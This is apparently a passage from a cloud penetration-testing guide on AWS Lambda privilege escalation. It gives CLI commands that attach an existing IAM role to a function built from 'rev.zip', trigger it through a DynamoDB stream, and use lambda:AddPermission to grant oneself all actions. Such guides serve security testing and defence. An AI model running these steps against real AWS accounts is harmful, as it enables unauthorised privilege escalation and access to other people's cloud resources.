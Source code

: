 Users with **`iam:PassRole`, `lambda:CreateFunction`, and `lambda:CreateEventSourceMapping`** permissions (and potentially `dynamodb:PutItem` and `dynamodb:CreateTable`) can indirectly **escalate privileges** even without `lambda:InvokeFunction`.\
They can create a **Lambda function with malicious code and assign it an existing IAM role**.

Instead of directly invoking the Lambda, the user sets up or utilizes an existing DynamoDB table, linking it to the Lambda through an event source mapping. This setup ensures the Lambda function is **triggered automatically upon a new item** entry in the table, either by the user's action or another process, thereby indirectly invoking the Lambda function and executing the code with the permissions of the passed IAM role.

```bash
aws lambda create-function --function-name my_function \
    --runtime python3.8 --role <arn_of_lambda_role> \
    --handler lambda_function.lambda_handler \
    --zip-file fileb://rev.zip
```

If DynamoDB is already active in the AWS environment, the user only **needs to establish the event source mapping** for the Lambda function. However, if DynamoDB isn't in use, the user must **create a new table** with streaming enabled:

```bash
aws dynamodb create-table --table-name my_table \
    --attribute-definitions AttributeName=Test,AttributeType=S \
    --key-schema AttributeName=Test,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```

Now it's posible **connect the Lambda function to the DynamoDB table** by **creating an event source mapping**:

```bash
aws lambda create-event-source-mapping --function-name my_function \
    --event-source-arn <arn_of_dynamodb_table_stream> \
    --enabled --starting-position LATEST
```

With the Lambda function linked to the DynamoDB stream, the attacker can **indirectly trigger the Lambda by activating the DynamoDB stream**. This can be accomplished by **inserting an item** into the DynamoDB table:

```bash
aws dynamodb put-item --table-name my_table \
    --item Test={S="Random string"}
```

**Potential Impact:** Direct privesc to the lambda service role specified.

### `lambda:AddPermission`

An attacker with this permission can **grant himself (or others) any permissions** (this generates resource based policies to grant access to the resource):

{% code overflow="wrap" %}
```bash
# Give yourself all permissions (you could specify granular such as lambda:InvokeFunction or lambda:UpdateFunctionCode)
aws lambda add-permission --function-name <func_name> --statement-id asdasd --action '*' --principal arn:<your user arn>

# Invoke the function
aws lambda lambda invoke --function-name <func_name> /tmp/outout
```
{% endcode %}
